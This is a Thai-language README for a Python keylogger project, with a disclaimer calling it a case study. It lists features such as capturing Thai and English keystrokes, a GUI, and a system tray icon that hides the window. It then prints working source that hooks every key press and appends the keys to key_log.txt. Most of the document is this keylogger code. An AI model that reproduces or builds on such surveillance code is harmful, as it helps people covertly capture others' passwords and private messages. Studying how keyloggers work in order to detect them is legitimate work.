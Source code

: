 # Keylogger

โปรเจกต์ Keylogger ตัวนี้เป็นโปรแกรมดักจับการกดแป้นพิมพ์ (Keyboard Logger) พร้อมกับ GUI ที่ช่วยให้สามารถควบคุมการทำงานได้ง่ายขึ้น รวมถึงระบบ System Tray สำหรับย่อโปรแกรมไปยังถาดไอคอน
Keylogger ทำขึ้นเพื่อเป็นซอฟแวร์นี้เป็นกรณีศึกษา เราจะไม่รับผิดชอบใดใดทั้งสิ้นหากใช้งานซอฟแวร์แล้วก่อให้เกิดความเสียหายต่อทรัพย์สิน
---

## ฟีเจอร์หลัก

- ดักจับปุ่มกดจากคีย์บอร์ดทั้งภาษาไทยและอังกฤษ
- บันทึกข้อมูลลงไฟล์ `key_log.txt`
- GUI สำหรับเริ่มต้น / หยุด / ดูสถานะ keylogger
- System tray icon สำหรับซ่อน/แสดงหน้าต่างโปรแกรม
- รองรับปุ่มพิเศษ เช่น Space, Enter, Backspace ฯลฯ

---

## ตัวอย่างโค้ด

### 1. ตัวอย่าง Keylogger พื้นฐาน (keylogger.py)

```python
import keyboard

log_file = "key_log.txt"

def on_key_event(event):
    if event.event_type != "down":
        return

    key = event.name
    try:
        with open(log_file, "a", encoding="utf-8") as f:
            if len(key) == 1:
                f.write(key)
            elif key == "space":
                f.write(" ")
            elif key == "enter":
                f.write("\n")
            elif key == "tab":
                f.write("\t")
            elif key == "backspace":
                f.write("[BACKSPACE]")
            elif key == "shift":
                pass
            else:
                f.write(f"[{key.upper()}]")
    except:
        pass

keyboard.hook(on_key_event)
keyboard.wait()
